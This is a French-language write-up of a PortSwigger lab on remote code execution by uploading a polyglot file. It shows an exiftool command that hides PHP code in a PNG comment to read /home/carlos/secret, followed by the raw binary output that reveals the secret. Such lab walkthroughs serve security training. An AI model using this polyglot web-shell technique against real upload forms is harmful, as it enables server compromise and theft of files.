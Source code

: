 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

## Solution

Lorsqu'on essaie d'upload un fichier php, on obtient cette erreur : `Error: file is not a valid image Sorry, there was an error uploading your file.`.

Ce qui laisse suggerer que le serveur ne vérifie pas le content-type du fichier mais lis le contenu.

On peut essayer de faire un polyglot php/jpg avec exiftool :

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" "C:\Users\mxce\Pictures\logo.png" -o polyglot.php
```

On upload ce fichier et on y accède via son URI.

L'image est affichée au format brut et on peut voir le contenu du fichier `/home/carlos/secret` :

```
�PNG  IHDR�y'�yPLTEp���������������}�v�j�g�Z�Y�K� 1m+h$c ^ 2o"`E~"a+a/>YMPVKOV#4T/S(SI�)W 0l+c,@^1d(T)U.Z.f4Kf/Otbx�l��o��m��s��v�����u��0���ŉ�����������tx������xv{qu}������������������������������������������������������|�w{�pu|hhoXZ`^Pbv��ý���������t6X�Y>StEXtCommentSTART f0ENN3g9gMBiJWX8z13aepJE7qjSLCiO ENDԴ`PbIDATx��kS����m��S��#7u�᠞����H$��PH�����I�k�K ��@������o��-�@��r�Gߣ����{�=��GW?.��|܀7?.�n|�2g-�B"��z���d)Q|�蚵u>�����/�"�@�K���7�YqC>��|��y� ���_J��BWqF���w&SN��Q���W��XC^�g^^�ɧ�_�>���WDWj�!/�^|�L^����!'Gxy��%#,�XI��o���?�*�\�3����ln~Ƿ*��T��g��S�z���VF�׃�Y8;c�a�&9<��#q��%}�'?�~�6����F��~ȋ�3��{��� �_��E���8����5:b误��EG����Q��Z2T<�䰦w]����^X�Rw����nG�%C���#�=)�]iG���%?[yH���~!�>}.�$:�}0&䩵�e�����Itt���7����W����.�U`m�O���;�.�_�M�c�����:��F���\�-���>�+~Fr��n��pL�e��D�;B9D�W��<���׸O�W2�H����%��C^�q{��T*�<�7!��A���ŝ�L&�L�o�?�~M��\}~����_���1�'��ȿ}c���6N ��@g���Y�v�9yr������m�Tv�8xC�I���n2�~���v�@�hZJT��|��t.D��t� l=G���u�Tǚ,�&������������+C�!���v�ڙ��OOV2v�v�5YJ$�>,�ӓ`�T&B~�J:+l�%:���V��y� ���uND���y��m��J�N����7�N=' �:`���0����x ,��S�o�T:��$�J�tD?�"�!��з��D`����:��ё~a䯂~H0�q�?m��"��vrÿiN���^/�Pȝ�OS�kQ%�����-��y3�ܹ^X:`�CH��I���a��-�c�����]�Ξ�dbع�$By�J�#;ɰE������ ]Ȧz�!��g&e�n��%;��>�Xd1�X��3A��Yk?m'��K�~�:�L�8�-� l�ۍbx���聘At2R��L����B���ř� �si1>�� �� l�"ƶB��{+�E�<��` n��4�j�p�^�Nɺ%;w���b�05�͆��ܾ���˧x�R.�}=���Vៈ7����5�t�u�v�E���l�3I��!�3�o��$����]�������-qz:����m�iP�,|���h~S���sqQ�+�)��˫1���>g]�ݾ����a�����Bd[�t^���gBi��??�P���ch�������C~/|����L��c���(�<�� ����7A/�qױ-˪9��(f�(s7#T����v�a�9��x�5�َ���/Ę��ȱ詊j�.�ǩ(G��뛧O�]�sa�|�DsY�;�K������g��'��3_�PF�� ���A^�{Re� 5��n��.�A;��,W:M�9���i�����������j ؋�Wn�㑭N�W��X!/��$:�7;jws�Y?��g��f�h��B/�馧���EL�4�ޟ���:X@S�Z�t��;ݙ>�5�p��g�Ȟ����UR��GO�F���k)�Y���K��x4�tT"�v�kO���V��E�B.��i���n��?��IH�°�P���T;�\,���E�� ���������(1˼�6���aN����}O��fEϨ�Q���⠸D�\rTaRHqv��/E����tZ��N'h����ዊ���������f-�x�U�z'�o�˱��2��:��� �4 ]^\c�:������*��A�ǅR\�rTS����p�� �4�[-�[S=�TU'����R�3��%�4a�Z̉솭rC$R����F�k��ŝ^�ğ��I���D��5p�M|��E�2}��X��:�y���lU���U1Dr�=�KEd�J`�%�gQ�A5r�!��!��� 9ag;k�C5��<���nK�17��9�U�juߜ�V��d@��,J�In.��;G����Ez!�;)�\\^^^�̋���7'��qD�B���#���ߣ��qu�h4�/ �K>>�_m.����$u����N�� ��!r{���L�`������E {&� �������xם����@���v��&t�����o�n��^���ג���,c���q΂��?A���v�7�w��7de��b���i�=�7v�Z�]7�����6�9y��D�w�wn >����Xz��9�9�J�3C+~�n�}F4b�wx��u=5{�K�=4- ?��Y~KL�:�����ͦ��7�#�I�A\�� :�6裉��N&W4T>C�����{��S��C�j��04�6��[[�1%"]C�F��"#�gxKM�TJI��m6pi�Eb5�K ó���ț�(q�){�ך@׺���}Ȁ�MT��y� �=��B��,}���Vz�F��'�(�%�`����y|t��6��z����4&�3��M��}U�:p/��B\�n����:5D���V�^+�w�5!-��Z\��4��Y��~ߐ� �#�\�=��y� � �#��7��۩=o0��U��w���á�X��٧Hnsg=@�y~��J9Z,'pM�~���N|�f0x:�h/!�hrb�5�䀌��s�� ��p ��`h;*Ps���`*u<�>�I+myS���]fVF)�WxC�F5�v��U�d2�mp�v_ON�錆w�"��[�{���'/H��E�3Sɠ�Հ]����l@[ �캣2�2X�IQ!��(�EJ(:ZF �0Ym����H�t:�����`�� mb��N�Qy�D��$�>"�$yg������ߕ ���T��ԝl �1e��M�q� �(�`;�0t(�ͦ���oq����\�C�j�j�T�a�`��*��,扯�2��C���hd(QU�f)Ƶ��E�8e�BK:��#���0*|K��C���;d�i���dq������놢}�vh���G���X��*����C"� s�2N������lE��!���ViP�bPTfѕ���<"�g�¥*�1� �4��#�u�/��h
```

On y lit : `START f0ENN3g9gMBiJWX8z13aepJE7qjSLCiO END`.